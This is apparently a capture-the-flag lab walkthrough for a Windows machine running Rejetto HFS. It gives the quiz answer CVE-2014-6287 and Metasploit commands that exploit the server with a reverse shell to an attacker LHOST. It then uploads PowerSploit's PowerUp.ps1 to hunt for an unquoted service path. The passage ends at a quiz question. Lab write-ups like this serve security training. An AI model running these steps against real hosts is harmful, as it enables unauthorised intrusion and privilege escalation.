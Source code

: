 <img src="https://user-images.githubusercontent.com/67650329/193288667-87e4d54d-35f2-4b9a-a1b0-e22a096dab0c.png" width="500px" align="center">

**What is the CVE number to exploit this file server?**

**Answer: 2014-6287**

## Exploitation 

Use Metasploit for exploit

`msfconsole`

`search rejetto`

<img src="https://user-images.githubusercontent.com/67650329/193289703-9db4803b-ea4b-4e5e-8750-d76a4b13ad8c.png" width="500px" align="center">

`use 0`

<img src="https://user-images.githubusercontent.com/67650329/193289802-27ded491-1417-4097-a839-8479c96924bf.png" width="500px" align="center">

`Set RHOSTS {ip_target}`

`Set RPORT {8080}`

`Set LHOST {your ip}`

`exploit`

Wait the exploit you can make a coffee for waiting.

And You get the user flag on bill desktop.

<img src="https://user-images.githubusercontent.com/67650329/193290628-6489dcfe-adee-44dc-a53f-7777f6928c84.png" width="500px" align="center">

You can download the script first.

Download the script -> [Click Here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

After you download the script. Upload the script on the machine.

`upload PowerUp.ps1`

<img src="https://user-images.githubusercontent.com/67650329/193292090-52c37025-c66c-4723-b7cb-3eb3e32180cb.png" width="500px" align="center">

`load powershell` -> for Activation the powershell

`powershell_shell` -> Access the powershell

`. .\PowerUp.ps1`

`Invoke-AllChecks`

<img src="https://user-images.githubusercontent.com/67650329/193292160-a43fd0c8-6fb9-4ef4-8ff4-56a9de2bba45.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193292812-79530abe-df5e-4418-8166-7074f942ef45.png" width="500px" align="center">

**Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?**
